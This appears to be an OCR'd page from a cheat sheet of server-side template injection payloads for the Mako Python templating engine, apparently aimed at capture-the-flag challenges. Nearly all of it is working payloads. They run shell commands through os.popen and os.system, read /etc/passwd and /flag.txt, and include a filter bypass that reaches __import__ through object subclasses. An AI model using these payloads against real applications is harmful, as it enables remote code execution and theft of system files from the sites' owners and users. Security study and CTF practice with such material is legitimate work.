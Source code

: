 ### One-liner Commands

```
${__import__('os').popen('id').read()}
${__import__('os').popen('cat /etc/passwd').read()}
${__import__('os').popen('cat /flag.txt').read()}
```

## Advanced Techniques

### Using Python Blocks

```
<%
    import os
    os.system('cat /flag.txt')
%>
```

### Function Definition

```
<%def name="exploit()">
    <% 
        import os
        return os.popen('cat /flag.txt').read()
    %>
</%def>
${exploit()}
```

### Using Namespaces

```
<%
    __M_writer=__import__('os').popen('cat /flag.txt').read
%>
${__M_writer()}
```

### Context Manipulation

```
<% 
    context.write(__import__('os').popen('cat /flag.txt').read())
%>
```

## Bypass Techniques

### Module Import Alternatives

```
${[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag.txt').read()}
```
